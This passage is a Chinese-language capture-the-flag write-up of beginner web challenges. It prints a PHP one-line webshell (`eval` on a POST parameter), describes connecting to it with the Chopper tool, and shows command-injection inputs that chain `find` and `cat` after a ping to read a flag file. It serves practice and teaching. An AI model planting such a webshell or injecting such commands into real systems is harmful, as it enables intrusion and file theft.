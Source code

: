 ## 10. webshell

### 原理

php一句话木马

### 工具

菜刀

### 步骤

1. 打开网页，发现提示`<?php @eval($_POST['shell']);?>` ，为PHP一句话木马。
2. 使用菜刀连接：
   ![1564710201148](https://github.com/Leeyuxun/XCTF-WEB-Exercise_area-write_up/blob/master/exercise_area-images/1564710201148.png)
3. 网站目录下发现了f`lag.txt`文件：
   ![1564710259022](https://github.com/Leeyuxun/XCTF-WEB-Exercise_area-write_up/blob/master/exercise_area-images/1564710259022.png)

4. 查看文件可获得flag为`cyberpeace{8733882b6647dada96f18da7f7f56754}`
   ![1564710354117](https://github.com/Leeyuxun/XCTF-WEB-Exercise_area-write_up/blob/master/exercise_area-images/1564710354117.png)

## 11. command execution

### 原理

windows和linux下:
`command1 && command2` 先执行`command1`后执行`command2`
`command1 | command2` 只执行`command2`
`command1 & command2` 先执行`command2`后执行`command1`

### 工具

Firefox

### 步骤

1. 使用Firefox打开网页，在输入框输入`ping 111.198.29.45 | find / -name "flag.txt"`，寻找flag位置为`/home/flag.txt`
   ![1564711345518](https://github.com/Leeyuxun/XCTF-WEB-Exercise_area-write_up/blob/master/exercise_area-images/1564711345518.png)

2. 继续输入命令`ping 111.198.29.45 | cat /home/flag.txt`打开flag.txt文件,获得flag为`cyberpeace{807ae4792ee2474774421999b765b97e}`
   ![1564711560625](https://github.com/Leeyuxun/XCTF-WEB-Exercise_area-write_up/blob/master/exercise_area-images/1564711560625.png)

## 12. simple php

### 原理

PHP比较符号`===`和`==`
